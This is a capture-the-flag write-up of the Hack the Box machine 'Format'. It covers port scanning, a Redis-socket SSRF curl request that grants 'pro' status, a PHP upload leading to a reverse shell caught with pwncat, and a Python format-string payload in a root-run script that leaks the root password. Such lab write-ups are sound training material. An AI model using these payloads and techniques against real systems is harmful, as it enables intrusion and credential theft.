

# Format

This is the write-up for Format from Hack the Box.

# Reconnaissance

We execute a full port scan on the host.

```bash
─[us-free-3]─[10.10.14.217]─[th3g3ntl3m4n@parrot]─[~/htb/machines/format]
└──╼ [★]$ sudo nmap -v -sS -Pn -p- --min-rate=300 --max-rate=500 -oA nmap/all-ports 10.10.11.213
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
```

Now we execute a port scan only on the open ports.

```bash
─[us-free-3]─[10.10.14.217]─[th3g3ntl3m4n@parrot]─[~/htb/machines/format]                                                                                                                     
└──╼ [★]$ sudo nmap -vv -sV -sC -Pn -p 22,80,3000 -oA nmap/format 10.10.11.213
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c397ce837d255d5dedb545cdf20b054f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC58JQV36v8AqpQB6tJC5upH5YdXw4LMaUJ4Exx+H6PjPZDab5MSx7Zm1oA1DWewM8tmU8fcprIxykYA8Z66Sd5ll/M1WntYO1b3LxxA0kI9F3yXQU+D2LMV6dGsqalJ80WWYcowlt3hZie6gnz4qEDj7ijCFi5h8K4R2rKtA16sH4FC9EQQU7qgN4WkE7uJSJS/6tWREtV/PspxsiMSBhUE0BreHurM6eaTZGa0VHOyNpbsZ3KXDro0fIOlfovRJVdAwWXF740M+X3aVngS9p1+XrnsVIqcL9T7GdU6H2Tyl5JvnGLdOr2Etd9NW41f+g+RYl7QY6WYbX+30racRmcTUtH4DODyeDXazi6fRUiXBI8pXkD3oLMBSxXsbeGT8Ja3LECPTybIl/jH3KRfl46P7TIUYZ2kqTZqxJ1B6klyZY+woh24UPDrZu/rW9JMaBz2tg97tAiLR8pLZxLrpVH7YmV8vXk2Sgo1rEuqKhBAK98bQuAsbocbjiyrKYAACc=
|   256 fab37d6e1abcd14b68edd6e8976727d7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIK9eUks4+f4DtePOKRJYzDggTf1cOpMhtAxXHGSqr5ng
80/tcp   open  http    syn-ack ttl 63 nginx 1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0
3000/tcp open  http    syn-ack ttl 63 nginx 1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://microblog.htb:3000/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Enumeration

When we tried to access the webpage using the IP address, we got a redirect to a subdomain, so we write this new subdomain down in our hosts file.




We created an account and login to the application and we noticed that the application is about creating and managing microblogs. We add a blog 


We insert an XSS payload and we are able to trigger the vulnerability.


We capture the request for editing the text of the blog in order to verify some vulnerabilities. When we test the parameter id, we were able to identify an LFI vulnerability.


Back to the service on port 3000, we could see the microblog’s code on the Gitea application.


We start to do some code reviews in order to verify if exists any vulnerabilities.

Checking the index.php file from the app directory, we notice that there is a function that verifies if some user is Pro through a Redis session.


In idex.php from the edit functionality, we verify that Pro users are able to upload files to the server.


# Exploitation

We try to change our account to a Pro user using REDIS.

```bash
─[us-free-3]─[10.10.14.217]─[th3g3ntl3m4n@parrot]─[~/htb/machines/format]
└──╼ [★]$ curl -X HSET "http://app.microblog.htb/static/unix:%2Fvar%2Frun%2Fredis%2Fredis.sock:th3g3ntl3m4n%20pro%20true%20a/b"
```


We upload the rev.php file payload which executes a ping command to our attack box using the id parameter.


Open the file on browser and get back response on our tcpdump listener.


Now we insert our reverse shell payload and get back the connection to our listener.

```bash
─[us-free-3]─[10.10.14.217]─[th3g3ntl3m4n@parrot]─[~/htb/machines/format]
└──╼ [★]$ sudo python3 -m pwncat -lp 443
[19:23:47] Welcome to pwncat 🐈!                                                                                                                                               __main__.py:164
[19:24:01] received connection from 10.10.11.213:44826                                                                                                                              bind.py:84
[19:24:05] 10.10.11.213:44826: registered new host w/ db                                                                                                                        manager.py:957
(local) pwncat$                                                                                                                                                                               
(remote) www-data@format:/var/www/microblog/test/uploads$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We upload the `pspy64` tool in order to check if there is any process running with other users or if anything we can get leverage that is executing.

We connect to the REDIS socket and catch all Keys. Then we get the user name `cooper.dooper`. With it, we get the password for the user on line 4.

```bash
(remote) www-data@format:/tmp$ redis-cli -s /run/redis/redis.sock
redis /run/redis/redis.sock> KEYS *
1) "cooper.dooper"
2) "cooper.dooper:sites"
redis /run/redis/redis.sock> TYPE cooper.dooper
hash
redis /run/redis/redis.sock> HGETALL cooper.dooper
 1) "username"
 2) "cooper.dooper"
 3) "password"
 4) "zooperdoopercooper"
 5) "first-name"
 6) "Cooper"
 7) "last-name"
 8) "Dooper"
 9) "pro"
10) "false"
```

Then we log into the SSH service with cooper user.

```bash
─[us-free-3]─[10.10.14.217]─[th3g3ntl3m4n@parrot]─[~/htb/machines/format]
└──╼ [★]$ ssh cooper@microblog.htb
The authenticity of host 'microblog.htb (10.10.11.213)' can't be established.
ECDSA key fingerprint is SHA256:5g/lIE6E8fQVRIJhCTQ/l6jE2Sh56FYGSFi4iLbQQko.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'microblog.htb,10.10.11.213' (ECDSA) to the list of known hosts.
cooper@microblog.htb's password: 
Linux format 5.10.0-22-amd64 #1 SMP Debian 5.10.178-3 (2023-04-22) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon May 22 20:40:36 2023 from 10.10.14.40
cooper@format:~$ id
uid=1000(cooper) gid=1000(cooper) groups=1000(cooper)
```

# Privilege Escalation

Checking if we can execute commands as root without password, we verify we can execute the python script license.

```bash
cooper@format:~$ sudo -l
[sudo] password for cooper: 
Matching Defaults entries for cooper on format:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cooper may run the following commands on format:
    (root) /usr/bin/license
cooper@format:~$ file /usr/bin/license
/usr/bin/license: Python script, ASCII text executable
```

The script contains

```python
#!/usr/bin/python3
import base64                 
from cryptography.hazmat.backends import default_backend                                    
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC             
from cryptography.fernet import Fernet                                                      
import random                                                                                                                                                                           
import string                                                                                                                                                                           
from datetime import date                                                                                                                                                               
import redis                             
import argparse                               
import os                                                                                   
import sys                                                                                                                                                                              

class License():                
    def __init__(self):   
        chars = string.ascii_letters + string.digits + string.punctuation                                                                                                               
        self.license = ''.join(random.choice(chars) for i in range(40))
        self.created = date.today()           

if os.geteuid() != 0:
    print("")                                 
    print("Microblog license key manager can only be run as root")
    print("")      
    sys.exit()                              

parser = argparse.ArgumentParser(description='Microblog license key manager')               
group = parser.add_mutually_exclusive_group(required=True)             
group.add_argument('-p', '--provision', help='Provision license key for specified user', metavar='username')
group.add_argument('-d', '--deprovision', help='Deprovision license key for specified user', metavar='username')
group.add_argument('-c', '--check', help='Check if specified license key is valid', metavar='license_key')
args = parser.parse_args()              

r = redis.Redis(unix_socket_path='/var/run/redis/redis.sock')

secret = [line.strip() for line in open("/root/license/secret")][0]                                                                                                              [20/64]
secret_encoded = secret.encode()
salt = b'microblogsalt123'
kdf = PBKDF2HMAC(algorithm=hashes.SHA256(),length=32,salt=salt,iterations=100000,backend=default_backend())
encryption_key = base64.urlsafe_b64encode(kdf.derive(secret_encoded))

f = Fernet(encryption_key)
l = License()

#provision     
if(args.provision):
    user_profile = r.hgetall(args.provision)
    if not user_profile:                                                                    
        print("")                                                                           
        print("User does not exist. Please provide valid username.")   
        print("")                            
        sys.exit()
    existing_keys = open("/root/license/keys", "r")
    all_keys = existing_keys.readlines()
    for user_key in all_keys:                                                 
        if(user_key.split(":")[0] == args.provision):
            print("")
            print("License key has already been provisioned for this user")
            print("")
            sys.exit()
    prefix = "microblog"
    username = r.hget(args.provision, "username").decode()
    firstlast = r.hget(args.provision, "first-name").decode() + r.hget(args.provision, "last-name").decode()
    license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
    print("")
    print("Plaintext license key:")
    print("------------------------------------------------------")
    print(license_key)
    print("")
    license_key_encoded = license_key.encode() 
    license_key_encrypted = f.encrypt(license_key_encoded)
    print("Encrypted license key (distribute to customer):")
    print("------------------------------------------------------")
    print(license_key_encrypted.decode())
    print("")
    with open("/root/license/keys", "a") as license_keys_file:
        license_keys_file.write(args.provision + ":" + license_key_encrypted.decode() + "\n")

#deprovision
if(args.check):
    print("")
    try:
        license_key_decrypted = f.decrypt(args.check.encode())
        print("License key valid! Decrypted value:")
        print("------------------------------------------------------")
        print(license_key_decrypted.decode())
    except:
        print("License key invalid")
    print("")
```

This script only can run as root. Reading the script we are able to perform a ***Python Format String Vulnerabilities***. So we connect to the REDIS service and we were able to retrieve the password in plain text marked in red below.

```bash
cooper@format:~$ redis-cli -s /run/redis/redis.sock
redis /run/redis/redis.sock> HMSET test first-name "{license.__init__.__globals__[secret_encoded]}" last-name test username test
OK
redis /run/redis/redis.sock> exit
cooper@format:~$ sudo /usr/bin/license -p test

Plaintext license key:
------------------------------------------------------
microblogtestPY"$_gHfd/xH`O`8zL07+!jm}GZ!~UMj43[DirzMb'unCR4ckaBL3Pa$$w0rd'test

Encrypted license key (distribute to customer):
------------------------------------------------------
gAAAAABk3rOa4MK76qyEtbPhek3Ocg7V04krWXUaMsM8nhMvEfu3grtFvgg85Xb_uqNRCyhRKUcyxhCSi4HWQbnblzxTREsC4E1-q8660IYKNI4ajRLXpGMTI6WOwC4jf6Cqi80fR0yzKzLPW9CGjjDtGL-2qcaqoWmFA-85-grPB8Qknv6C7gw=
```

Now, we were able to log into the SSH service as user root.

```bash
─[us-free-3]─[10.10.14.217]─[th3g3ntl3m4n@parrot]─[~/htb/machines/format]
└──╼ [★]$ ssh root@microblog.htb
root@microblog.htb's password: 
Linux format 5.10.0-22-amd64 #1 SMP Debian 5.10.178-3 (2023-04-22) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 23 18:43:13 2023 from 10.10.14.41
root@format:~# id
uid=0(root) gid=0(root) groups=0(root)
```

